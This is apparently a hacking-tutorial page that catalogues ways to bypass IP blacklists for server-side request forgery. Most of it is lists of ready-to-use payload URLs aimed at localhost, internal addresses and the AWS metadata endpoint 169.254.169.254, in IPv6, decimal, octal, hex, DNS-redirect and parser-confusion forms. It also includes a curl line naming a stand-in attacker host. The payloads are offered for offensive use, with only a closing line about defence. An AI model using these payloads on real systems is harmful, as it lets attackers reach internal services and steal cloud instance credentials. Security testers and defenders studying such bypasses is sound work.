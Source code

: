```yaml
---
cover: ../../.gitbook/assets/11.png
coverY: -37
---
```


# 🔓 Unlocking Forbidden Territories: Mastering Blacklist Bypass Techniques

In the intricate realm of cybersecurity, blacklists are formidable guardians, typically designed to block access to specific IP addresses. However, for those with a penchant for exploration and a touch of ingenuity, there exist methods to defy these digital barriers. Let's delve into the art of bypassing blacklists, armed with a repertoire of cunning techniques.

### **Bypassing IP Address Blacklists: An Ingenious Game**

The most prevalent blacklists target IP addresses like the notorious 127.0.0.1 or the seemingly impervious localhost. To outsmart these guardians, astute hackers employ a variety of tricks:

1. **IPv6 Evasion**: Harness the power of IPv6 with addresses like:
   * `http://[::]/`
   * `http://[::]:80/`
   * `http://0000::1/`
   * `http://0000::1:80/`
2. **Domain Redirection**: When all IP addresses are barred, redirection is your ally. Explore domains like:
   * `http://localtest.me`
   * `http://test.app.127.0.0.1.nip.io`
   * `http://test-app-127-0-0-1.nip.io`
   * `httP://test.app.127.0.0.1.xip.io`
3. **CIDR Subnet Magic**: When only 127.0.0.1 is grudgingly permitted, turn to CIDR:
   * `http://127.127.127.127/`
   * `http://127.0.1.3/`
   * `https:/127.0.0.0/`
4. **IPv6/IPv4 Address Fusion**: When both IPv4 and IPv6 are unwelcome guests, disguise with:
   * `http://[0:0:0:0:0:ffff:127.0.0.1]/`
5. **Decimal IP Wizardry**: When dots are barred, play with decimal delights:
   * `http://0177.0.0.1/` → (127.0.0.1)
   * `http://2130706433/` → (127.0.0.1)
   * `http://3232235521/` → (192.168.0.1)
   * `http://3232235777/` → (192.168.1.1)
6. **Malformed URL Tricks**: When ports are locked, go for:
   * `localhost:+11211aaa`
   * `localhost:00011211aaaa`
   * `localhost:11211`
7. **IP Address Shortcuts**: When the full IP address is white-listed, condense to:
   * `http://0/`
   * `http://127.1/`
   * `http://127.0.1/`
8. **Enclosed Alphanumerics**: Exploit server interpretations with:
   * `http://①②⑦.⓪.⓪.①/`
   * `http://⓵⓶⓻.⓪.⓪.⓵/`
9. **Bash Variable Intrigue (cURL Only)**:
   * `curl -v "http://attacker$google.com"; $google = ""`
10. **Against Weak Parsers**: Confound weak parsers with:
    * `http://127.1.1.1:80\@127.2.2.2:80/`
    * `http://127.1.1.1:80\@@127.2.2.2:80/`
    * `http://127.1.1.1:80:\@@127.2.2.2:80/`
    * `http://127.1.1.1:80#\@127.2.2.2:80/`

### **Cracking the AWS Code: Bypassing 169.254.169.254**

In the realm of Amazon Web Services (AWS), the 169.254.169.254 address stands as a formidable sentinel. However, the ingenious find ways to slip past its defenses:

1. **Subdomain Evasion**: Crafty subdomains like:
   * `http://169.254.169.254.xip.io/`
   * `http://1ynrnhl.xip.io`
2. **Decimal Magic**: Delve into decimal sorcery:
   * `http://425.510.425.510` – Dotted Decimal with Overflow
   * `http://2852039166` – Dotless Decimal
   * `http://7147006462` – Dotless Decimal with Overflow
3. **Hexadecimal Enigma**: Embrace the hexadecimal:
   * `http://0xA9.0xFE.0xA9.0xFE` – Dotted Hexadecimal
   * `http://0xA9FEA9FE` – Dotless Hexadecimal
   * `http://0x41414141A9FEA9FE` – Dotless Hexadecimal with Overflow
4. **Octal Escapade**: Traverse the octal landscape:
   * `http://0251.0376.0251.0376` – Dotted Octal
   * `http://0251.00376.000251.0000376` – Dotted Octal with Padding

These ingenious techniques, while a testament to human creativity, also underline the importance of vigilant security measures to safeguard against unauthorized access and potential threats.
